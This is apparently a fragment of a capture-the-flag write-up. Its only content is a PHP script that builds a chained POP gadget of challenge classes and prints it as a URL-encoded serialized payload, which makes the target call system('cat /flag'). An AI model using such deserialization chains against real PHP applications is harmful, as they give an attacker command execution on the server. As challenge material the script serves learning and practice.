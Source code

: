 ![image-20231211100850669](images/49.png)

## POP Gadget

```
<?php
class Begin{
    public $name;
}

class Then{
    public $func;
}

class Handle{
    public $obj;
}

class Super{
    public $obj;

}

class CTF{
    public $handle;

}

class WhiteGod{
    public $func;
    public $var;

}
$a = new Begin();
$b = new Then();
$c = new Super();
$d = new Handle();
$e = new CTF();
$f = new WhiteGod();
$f->var = "cat /flag";
$f->func = "system";
$e->handle = $f;
$d->obj = $e;
$c->obj = $d;
$b->func = $c;
$a->name = $b;
echo urlencode(serialize($a));
```
